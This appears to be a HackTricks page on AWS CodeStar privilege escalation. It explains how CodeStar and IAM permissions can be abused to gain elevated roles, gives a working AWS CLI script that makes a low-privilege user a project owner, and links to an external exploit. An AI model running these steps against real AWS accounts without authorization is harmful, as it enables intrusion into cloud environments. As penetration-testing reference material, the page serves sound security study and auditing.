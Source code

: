 # AWS - Codestar Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## Codestar

You can find more information about codestar in:

{{#ref}}
codestar-createproject-codestar-associateteammember.md
{{#endref}}

### `iam:PassRole`, `codestar:CreateProject`

With these permissions you can **abuse a codestar IAM Role** to perform **arbitrary actions** through a **cloudformation template**. Check the following page:

{{#ref}}
iam-passrole-codestar-createproject.md
{{#endref}}

### `codestar:CreateProject`, `codestar:AssociateTeamMember`

This technique uses `codestar:CreateProject` to create a codestar project, and `codestar:AssociateTeamMember` to make an IAM user the **owner** of a new CodeStar **project**, which will grant them a **new policy with a few extra permissions**.

```bash
PROJECT_NAME="supercodestar"

aws --profile "$NON_PRIV_PROFILE_USER" codestar create-project \
    --name $PROJECT_NAME \
    --id $PROJECT_NAME

echo "Waiting 1min to start the project"
sleep 60

USER_ARN=$(aws --profile "$NON_PRIV_PROFILE_USER" opsworks describe-my-user-profile | jq .UserProfile.IamUserArn | tr -d '"')

aws --profile "$NON_PRIV_PROFILE_USER" codestar associate-team-member \
    --project-id $PROJECT_NAME \
    --user-arn "$USER_ARN" \
    --project-role "Owner" \
    --remote-access-allowed
```

If you are already a **member of the project** you can use the permission **`codestar:UpdateTeamMember`** to **update your role** to owner instead of `codestar:AssociateTeamMember`

**Potential Impact:** Privesc to the codestar policy generated. You can find an example of that policy in:

{{#ref}}
codestar-createproject-codestar-associateteammember.md
{{#endref}}

### `codestar:CreateProjectFromTemplate`

1. **Create a New Project:**
   - Utilize the **`codestar:CreateProjectFromTemplate`** action to initiate the creation of a new project.
     - Upon successful creation, access is automatically granted for **`cloudformation:UpdateStack`**.
     - This access specifically targets a stack associated with the `CodeStarWorker-<generic project name>-CloudFormation` IAM role.
2. **Update the Target Stack:**
   - With the granted CloudFormation permissions, proceed to update the specified stack.
     - The stack's name will typically conform to one of two patterns:
       - `awscodestar-<generic project name>-infrastructure`
       - `awscodestar-<generic project name>-lambda`
       - The exact name depends on the chosen template (referencing the example exploit script).
3. **Access and Permissions:**
   - Post-update, you obtain the capabilities assigned to the **CloudFormation IAM role** linked with the stack.
   - Note: This does not inherently provide full administrator privileges. Additional misconfigured resources within the environment might be required to elevate privileges further.

For more information check the original research: [https://rhinosecuritylabs.com/aws/escalating-aws-iam-privileges-undocumented-codestar-api/](https://rhinosecuritylabs.com/aws/escalating-aws-iam-privileges-undocumented-codestar-api/).\
You can find the exploit in [https://github.com/RhinoSecurityLabs/Cloud-Security-Research/blob/master/AWS/codestar_createprojectfromtemplate_privesc/CodeStarPrivEsc.py](https://github.com/RhinoSecurityLabs/Cloud-Security-Research/blob/master/AWS/codestar_createprojectfromtemplate_privesc/CodeStarPrivEsc.py)

**Potential Impact:** Privesc to cloudformation IAM role.

{{#include ../../../../banners/hacktricks-training.md}}



